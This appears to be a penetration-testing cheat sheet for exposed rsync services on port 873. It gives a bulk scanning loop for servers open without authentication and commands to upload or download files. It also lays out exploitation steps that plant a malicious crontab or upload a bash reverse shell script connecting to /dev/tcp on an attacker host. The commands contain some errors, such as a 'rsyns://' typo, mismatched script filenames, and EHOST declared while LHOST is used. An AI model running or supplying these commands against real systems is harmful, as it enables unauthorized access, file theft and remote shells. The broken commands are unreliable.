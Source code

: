 # 873 - Rsync

## Potential Risks

### Unauthorized Access

```bash
# RHOST=remoteHost; RPORT=873
rsync rsyns://$RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
run() {
    while IFS= read -r LINE
    do
        if [[ "$LINE" == *":"* ]]; then
            RHOST=${LINE%%:*}
            RPORT=${LINE#*:}
        else
            RHOST=$LINE
            RPORT=873
        fi
        if [[ -n "$(sshpass -p '' rsync rsync://$RHOST:$RPORT 2>/dev/null)" ]]; then
            echo "[SUCCESS] rsync://$RHOST:$RPORT"
        fi
    done < "$RHOST_LIST"
}
run | awk -F '//' '{print $2}'
```

## Exploitation

### Upload File

#### Method 1: Regular upload files

```bash
# RHOST=remoteHost; RPORT=873
rsync -av /path/to/localFile rsync://$RHOST:$RPORT/path/to/remoteFile
```

#### Method 2: Upload crontab to reverse shell

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Method 1: Modify the `crontab` of the remote server
# Step 1: Download the `crontab` of the remote server
# Step 2: Added reverse shell task
# Step 3: Upload the evil 'crontab'

# Method 2: Added the `crontab` of the remote server
# Step 1: Create evil `crontab`
# Step 2: Upload the evil 'crontab'
```

For more information, please refer to page [OOB > Reverse Shell](../../others-high/oob-payload.md#reverse-shell).

#### Method 3: Upload the executable reverse shell file and add crontab to execute

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Step 1: Create a reverse shell script and add executable permissions
echo "#\!/bin/bash\n/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1" > /tmp/santa_revs.sh
chmod +x /tmp/santaclaus_revs.sh
# Step 2: Upload reverse shell script
rsync -av /tmp/santaclaus_revs.sh rsync://$RHOST:$RPORT/src/tmp/santaclaus_revs.sh
# Step 3: Download and modify the target server crontab
# Step 4: Upload evil crontab
```

For more information, please refer to page [OOB > Reverse Shell](../../others-high/oob-payload.md#reverse-shell).

### Download File

```bash
# RHOST=remoteHost; RPORT=873
rsync -av rsync://$RHOST:$RPORT/path/to/remoteFile /path/to/localFile
```
